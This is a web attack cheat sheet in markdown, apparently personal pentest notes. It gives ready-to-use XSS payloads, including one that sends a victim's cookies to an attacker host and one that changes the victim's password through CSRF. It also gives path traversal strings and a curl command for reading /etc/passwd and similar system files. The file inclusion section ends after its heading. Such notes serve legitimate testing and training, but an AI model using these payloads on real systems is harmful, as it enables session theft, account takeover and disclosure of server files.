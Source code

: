 # 🕷️ Web Application Attacks

## XSS

> [PayloadsAllTheThings > XSS](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)

- Locate areas accepting user input (e.g., forms, URL parameters, headers, cookies).
- Note how inputs are reflected in the application's response or processed.
- Use URL, Base64, or HTML encoding to bypass filters.
- Test variations like `<img src=x onerror=alert(1)>`.

```html
<!-- XSS + CSRF -->
<img src=x onerror=this.src="http://<ip>/change_pass.php?password=123123&confirm_password=123123&submit=submit">

<!-- get user's cookies -->
<img src=x onerror=this.src="http://<ip>/?c="+document.cookie>
```

## Path Traversal

> [PayloadsAllTheThings > Path Traversal](https://swisskyrepo.github.io/PayloadsAllTheThings/Directory%20Traversal/)

!!! tip
    🍪 Don't forget the `--path-as-is` curl param

```shell
# linux
../etc/passwd
# bypass naive filters
....//....//etc/passwd
# URL encoding
/%2e%2e/%2e%2e/%2e%2e/etc/passwd
# mixing forward and backward slashes
..\/..\/..\/etc/passwd
# escaped characters
....\/....\/....\/etc/passwd
# windows
..\..\..\Windows\win.ini
# UTF-8 encoding bypass
..%c0%af..%c0%af..%c0%af/etc/passwd

# curl without path normalization or encoding
curl --path-as-is "http://<url>/index.php?page=../../../etc/passwd"
```

## File Inclusion Vulnerabilities

> [PayloadsAllTheThings > File Inclusion](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)
